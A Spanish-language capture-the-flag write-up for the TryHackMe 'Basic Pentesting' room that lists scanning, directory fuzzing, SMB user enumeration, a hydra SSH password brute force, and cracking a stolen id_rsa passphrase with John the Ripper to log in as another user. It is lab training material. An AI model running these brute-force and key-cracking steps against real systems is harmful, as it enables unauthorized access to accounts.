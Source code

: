 ```yaml
---
title : Máquina|Basic Pentesting|THM|SSH JHON|EC
published : True
---
```


<div class="contenedor imgc">
    <img class="imgc" src="imgs/basicPentesting/basicPentesting.png" style="width: 169px" alt="Cheese logo">
    <div> 
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Dificultad: Fácil </p>
        <p><font color="red" style="text-shadow: 5px 5px 20px red;">#</font> Url: <a href="https://tryhackme.com/r/room/basicpentestingjt" style="color: lightblue;">Lazy Admin</a></p>
    </div>
</div>

<h2><font color="white"><center># BasicPentesting</center></font></h2>

* <p>Enumerando la maquina nos damos cuenta que es una maquina Linux por le ttl de respuesta el cual es 63, no es 64 porque hay un nodo intermediario.</p>
> ping -c 1 10.10.205.174 
>
<img src="/imgs/basicPentesting/basicPentesting0.jpg"/>

* <p>Seguido miramos puerto abiertos de la maquina, y detectamos la version de los puerto abiertos</p>
> nmap -O -sV --min-rate 5000 -sS -Pn --open 10.10.205.174 -o allports
>
<img src="/imgs/basicPentesting/basicPentesting1.jpg"/>
* <p>Veamos ahora el puerto ( 80 | http ) de la maquina</p>
> 
<img src="/imgs/basicPentesting/basicPentesting2.jpg"/>

* <p>Vemos que no hay nada interesante, asi que empezamos a descubrir rutas ocultas de la pagina web, y vemos que hay una ruta llamada development.</p>
> wfuzz -t 200 --hc=404 -c -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt http://10.10.205.174/FUZZ
>
<img src="/imgs/basicPentesting/basicPentesting3.jpg"/>
* <p>Al mirar la los 2 archivos individualmente del directorio https://10.10.205.174/development no vemos nada interesante.</p>
>
<img src="/imgs/basicPentesting/basicPentesting4.jpg"/>
* <p>Asi que recordamos que tiene el puerto smb abierto asi que vamos a tratar de enumerarlo para poder sacar usuarios existentes</p>
> enum4linux 10.10.205.174
>
<img src="/imgs/basicPentesting/basicPentesting5.jpg"/>
>
`Tenemos 2 usuario existentes en el sistema Jay | kay.`
* <p> Teniendo esos 2 usuarios podemo hacer un ataque de fuerza bruta por ssh.</p>
> hydra -l jan -P /usr/share/wordlists/rockyou.txt 10.10.205.174 ssh
>
<img src="/imgs/basicPentesting/basicPentesting6.jpg"/>
>
`Tenemos la contraseña de jan la cual es : armando`
* <p>Ahora lo que sigue es conectarnos por ssh a ver si es valida la información</p>
> ssh jan@10.10.205.174 
>
<img src="/imgs/basicPentesting/basicPentesting7.jpg"/>
* <p>Vemos que en el directorio de kay tenemos una id_rsa.</p>
>
<img src="/imgs/basicPentesting/basicPentesting8.jpg"/>
>
* <p>A la hora de conectarnos por ssh nos pide contraseña.</p>
>
<img src="/imgs/basicPentesting/basicPentesting9.jpg"/>

* <p>Pero podemos hacerle un crack con john, nos transferimos el archivo <font color="yellow">id_rsa</font> a  nuestra maquina</p>
>
<img src="/imgs/basicPentesting/basicPentesting10.jpg"/>
* <p>Ahora cambiamos el archivo <font color="yellow"> a un formato hash por jhon</font>.</p>
> /usr/share/john/ssh2john.py id_rsa  > crackeame
<img src="/imgs/basicPentesting/basicPentesting11.jpg"/>
* <p>Ahora crackeamos el archivo que generamos,y obtenemos la contraseña <font color="red">beeswax</font>.</p>
>
<img src="/imgs/basicPentesting/basicPentesting12.jpg"/>
* <p>Y listo al conectarnos podemos ver la contraseña de root , sin querer deje apagar la maquina y la ip cambio a 10.10.56.225 pero el proceso es el mismo.</p>
> ssh -i id_rsa kay@10.10.56.225
>
<img src="/imgs/basicPentesting/basicPentesting13.jpg"/>
>

